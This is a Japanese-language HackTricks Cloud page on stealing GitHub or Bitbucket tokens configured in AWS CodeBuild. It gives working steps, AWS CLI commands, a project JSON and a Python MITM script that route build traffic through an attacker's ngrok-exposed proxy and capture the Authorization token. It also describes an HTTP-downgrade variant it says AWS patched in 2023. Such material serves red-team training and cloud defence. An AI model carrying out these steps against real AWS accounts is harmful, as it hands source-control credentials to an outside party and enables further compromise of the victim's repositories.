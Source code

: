 # AWS Codebuild - トークンリーク

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Github/Bitbucketで設定されたトークンの回復

まず、リークする可能性のある設定済みのソースクレデンシャルがあるかどうかを確認します：
```bash
aws codebuild list-source-credentials
```
### Dockerイメージを介して

たとえばGithubへの認証がアカウントで設定されていることがわかった場合、特定のDockerイメージを使用してCodebuildにプロジェクトのビルドを実行させることで、そのアクセス（**GHトークンまたはOAuthトークン**）を**抜き取る**ことができます。

この目的のために、新しいCodebuildプロジェクトを**作成する**か、既存のものの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは非常に基本的なDockerイメージで、**環境変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定します。これにより、**`https_proxy`**と**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL証明書を信頼することができます。

1. **独自のDocker MitMイメージを作成してアップロードする**
* リポジトリの指示に従ってプロキシIPアドレスを設定し、SSL証明書を設定して**dockerイメージをビルド**します。
* メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`を設定しないでください**。
* プロキシをホストに設定するために**`ngrok`**を使用できます。例えば`ngrok tcp 4444`のように。
* Dockerイメージをビルドしたら、**パブリックリポジトリにアップロード**します（Dockerhub、ECRなど）。
2. **環境を設定する**
* 新しいCodebuildプロジェクトを**作成する**か、既存のものの環境を**変更**します。
* プロジェクトが**以前に生成されたDockerイメージ**を使用するように設定します。

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

3. **ホストにMitMプロキシを設定する**

* **Githubリポジトリ**に示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用された**mitmproxyのバージョンは9.0.1**で、バージョン10ではこの方法が機能しない可能性が報告されています。
{% endhint %}

4. **ビルドを実行し、クレデンシャルをキャプチャする**

*   **Authorization**ヘッダーでトークンを確認できます：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

これはaws cliを使用して以下のように行うこともできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性はAWSによって2023年2月20日の週のいつか（金曜日だと思います）に修正されました。そのため、攻撃者はこれを悪用できなくなりました :)**
{% endhint %}

攻撃者は、**CodeBuild内で昇格した権限を持っている場合、設定されているGithub/Bitbucketトークンを漏洩させる**ことができます。また、OAuthを介して権限が設定されている場合は、**コードにアクセスするために使用される一時的なOAuthトークンを漏洩させる**ことができます。

* 攻撃者は、環境変数**http\_proxy**と**https\_proxy**をCodeBuildプロジェクトに追加し、自分のマシンを指すように設定することができます（例：`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSではなくHTTPを使用するように変更します。例：**http://**github.com/carlospolop-forks/TestActions
* そして、プロキシ変数（http\_proxyとhttps\_proxy）によって指されたポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)からの基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトのビルド**をクリックすると、**認証情報**がクリアテキスト（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
これで攻撃者は、自分のマシンからトークンを使用し、その権限をリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）利用できるようになります。
{% endhint %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

